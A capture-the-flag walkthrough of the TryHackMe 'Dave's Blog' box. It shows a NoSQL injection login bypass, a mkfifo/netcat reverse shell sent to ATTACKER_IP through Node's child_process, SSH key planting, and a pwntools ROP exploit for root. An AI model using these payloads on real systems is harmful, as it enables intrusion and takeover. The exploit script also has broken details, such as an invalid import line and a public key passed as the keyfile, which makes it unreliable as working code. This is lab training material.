This box is rated hard difficulty on THM. It involves using NoSQL injection in JSON format to bypass a login panel, getting a reverse shell with the site's built-in command prompt, and exploiting a custom binary with a Return-oriented Programming attack.

My friend Dave made his own blog!

## Scanning & Enumeration
I begin with an Nmap scan against the given IP to find all running services on the host. I do the same with UDP, but only find that ports 22 and 80 are closed.

```
$ sudo nmap -p22,80,3000,8989 -sCV 10.66.147.63 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-21 16:08 CST
Nmap scan report for 10.66.147.63
Host is up (0.043s latency).

PORT     STATE  SERVICE      VERSION
22/tcp   open   ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9:31:1f:9f:b4:a1:10:9d:a9:69:ec:d5:97:df:1a:34 (RSA)
|   256 e9:f5:b9:9e:39:33:00:d2:7f:cf:75:0f:7a:6d:1c:d3 (ECDSA)
|_  256 44:f2:51:7f:de:78:94:b2:75:2b:a8:fe:25:18:51:49 (ED25519)
80/tcp   open   http         nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Dave's Blog
| http-robots.txt: 1 disallowed entry 
|_/admin
3000/tcp open   http         Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: Dave's Blog
8989/tcp closed sunwebadmins
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.89 seconds
```

There are four ports open:
- SSH on port 22
- Web servers on ports 80 and 3000 (nginx and node.js)
- An admin panel on port 8989 (Closed)

From the looks of it, the /admin directory on both web servers is disallowed in robots.txt. I fire up gobuster and ffuf to find subdirectories/subdomains in the background before starting full enumeration on ports 80 & 3000.



The first landing page shows a barren site where Dave hosts his blog posts. He discloses that he built it with NoSQL which saves us time figuring that out. NoSQL is often prone to some pretty dangerous things like injection attacks to get passwords, including regex exploits.



The /admin page holds a simple panel and a function to register, however that is disabled for now. We are also assigned a JWT cookie when landing on the page.



Checking the 404 page confirms this is running node.js as well.



The site on port 3000 is the exact same as our first one, so it's pretty obvious we must exploit NoSQL injection as the JWT decodes to just a type and alg header. Looking at the source code shows the logic behind the sign in, we must supply JSON data.



After capturing a request to the login, I test injection for users admin and dave. Using the $ne operator set to null for the password works and we get a login. Decoding the JWT will give us the first flag and we can look around the site.



The password field was just our flag which won't work on SSH, so I'll need to grab a shell by other means.

The only thing we have access to internally is to some type of command prompt. I test for functionality with a simple equation of 2+2 and it returns. Supplying exec.exec shows undefined, meaning we're able to execute that function.



## Initital Foothold
I try some shells thinking we can just run a node.js command using exec and child_process but it returns with {}. Just using require describes a function within.

```
function require(path) {
    try {
      exports.requireDepth += 1;
      return mod.require(path);
    } finally {
      exports.requireDepth -= 1;
    }
  }
```

This tells me that our output is the return value of provided expressions and that there is a safety measure to stop nested `require()` calls. This is important because there's no errors being thrown meaning our code is still ran. 

I try a few more shells with the `require(child_process).exec()` method and find that by using a simple mkfifo reverse shell works fine.

```
require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f')
```



We can grab quickly grab the third flag by digging in the Mongo database.



## Privilege Escalation
Listing Dave's sudo privileges shows that he can run a custom binary named `/uid_checker` as root. Using strings on it gives us the fourth flag and some more great info.

When executing `/uid_checker`, it prompts us with an option of 1 or 2,  allowing us to choose between our UID or GID to display. There's a hidden function inside of it that conveniently contains `/bin/sh`. This is looking more and more vulnerable with every minute.



I had trouble transfering it with wget so I copied the binary to into his blog and grabbed it with my browser. Inspecting the binary in depth shows a function named secret which makes a system call.



This binary is prone to Return-oriented Programming (ROP). In short, our attack chain will consist of finding the pointer towards /bin/sh which we saw was available earlier. Then, we find a gadget to pop it off of the stack and into the RDI register. Finally calling the system function in order to execute it.

Gadgets are small instruction sequences ending with ret. We can chain these sequences together to be able to manipulate the binary to perform tasks already implemented inside of it. In our case, the final goal is to execute /bin/sh as root.

For example the `pop rdi; ret` line will be useful as we can stack them. The fact they end in ret lets us perform more than one sequence, making this attack possible.

```
    0x0000:         0x400803 pop rdi; ret
    0x0008:         0x601060 [arg0] rdi = completed.7698
    0x0010:         0x4005b0
    0x0018:         0x400803 pop rdi; ret
    0x0020:         0x601060 [arg0] rdi = completed.7698
    0x0028:         0x400570
```
Here are some resources I found that helped me understand and exploit this:

[Intro to ROP Article](https://medium.com/@iseethieves/intro-to-rop-rop-emporium-split-9b2ec6d4db08)

[ROP BinEx](https://ctf101.org/binary-exploitation/return-oriented-programming/)

I use a tool called [ropstar](https://github.com/xct/ropstar) that automates this for us. Although I understand ROP at its core, this level of exploitation is above my paygrade and it'll save some time.



The offset is 88 bytes and the tool finds all addresses to use. In short, it finds a gadget to use, gets our payload, and then calls to `system()` to execute it.

The hint for root flag is `from pwn import *` which steers me in the right direction for making the script. Pwntools has a module for SSH which will make things easier to connect and use, rather than uploading different payloads to debug.

Before that, we need to upload our pubkey to Dave's .ssh dir.

```
# As Dave

$ ssh-keygen
$ cat id_rsa.pub > authorized_keys
$ echo "YOUR_PUB_KEY" >> authorized_keys
```

I have AI write me a PoC using everything we've gathered. This script writes our payload, connects to the system as Dave over SSH, and executes `/bin/sh` after the payload is sent, granting us a root shell.

```
#!/usr/bin/python3
import * from pwn

cyclic_len = 88
payload = cyclic(cyclic_len)
payload += p64(0x400803)    # Gadget
payload += p64(0x601000)    # .bss (payload)
payload += p64(0x4005b0)    # gets() function
payload += p64(0x400803)    # Gadget
payload += p64(0x601000)    # .bss (payload)
payload += p64(0x400570)    # system() call

s = ssh(host='MACHINE_IP', user='Dave', keyfile='../.ssh/id_rsa.pub')
p = s.process([ "sudo", "/uid_checker"])

p.recv()
p.sendline(payload)

p.recv()
p.sendline("/bin/sh")

p.interactive()
```

I finally run the script and get a successful logon and a root shell confirming the payload works as intended.



Grabbing the final flag under root dir completes this box. Even though I love binary exploitation, this box was pretty difficult for me as getting into the nitty gritty machine code and debugging payloads can be a pain. Big thanks to [jammy](https://tryhackme.com/p/jammy) for creating this box and [xct](https://github.com/xct) for making things easy with ROPstar.

I hope this was helpful to anyone following along or stuck and happy hacking!
